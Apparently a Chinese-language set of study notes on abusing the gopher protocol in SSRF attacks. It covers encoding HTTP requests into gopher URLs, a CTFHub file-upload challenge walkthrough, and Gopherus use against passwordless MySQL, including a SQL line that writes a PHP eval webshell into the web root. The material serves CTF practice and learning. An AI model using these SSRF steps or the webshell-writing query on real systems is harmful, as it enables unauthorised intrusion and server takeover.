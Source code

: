 ### gopher协议

#### 简介

   gopher协议支持发出GET、POST请求：可以先拦截get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议（俗称万能协议）。可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求，还可以攻击内网未授权MySQL。

#### 构造

gopher格式：

`gopher://IP:port/_{TCP/IP数据流}`



##### gopher实现http请求

分为3步：

```
1、构造HTTP数据包
2、URL编码、替换回车换行为%0d%0a
3、发送gopher协议
```

==编码注意事项==

技巧：使用记事本的替换功能对%0a进行替换

```
1、问号（？）需要转码为URL编码，也就是%3f
2、回车换行要变为%0d%0a,但如果直接用工具转，可能只会有%0a
3、在HTTP包的最后要加%0d%0a，代表消息结束
```

##### 结合curl实现ssrf

cURL是一个利用URL语法在命令行下工作的文件传输工具。它支持文件上传和下载，所以是综合传输工具。cURL还包含了用于程序开发的libcurl。

curl格式：`curl protocol://address:port/url?args`

==注意在浏览器中传入的需要两次url编码，因为浏览器会解码一次==

php中的curl支持Gopher协议，所以有ssrf漏洞

##### CTFHUB上传文件Gopher题解

​        首先使用file协议暴露flag.php源码，发现只要上传文件就可以得到flag。所以本题考察通过内网访问上传文件，采用Gopher协议，我们直接访问flag.php发现需要通过127.0.0.1才行，所以访问`?url=127.0.0.1/flag.php`，发现有一个文件上传的选择文件按钮，但是没有上传，所以我们修改网页前端，加上按钮，提交后，用BP截下，然后修改一下，使得有文件上传，复制请求报文，进行两次编码，注意**Gopher协议里的换行符需替换**，在浏览器中输入`?url=gopher://127.0.0.1：80/_[url编码后的报文]`，访问后即可得到flag



#### gopherus工具使用

##### 攻击mysql

只在数据库没有设置密码的时候可以使用

首先输入用户名：`root`

然后输入要执行的sql语句：`select '<?php @eval()?>' INTO OUTFILE '/var/www/html/f.php'`

然后即可生成payload
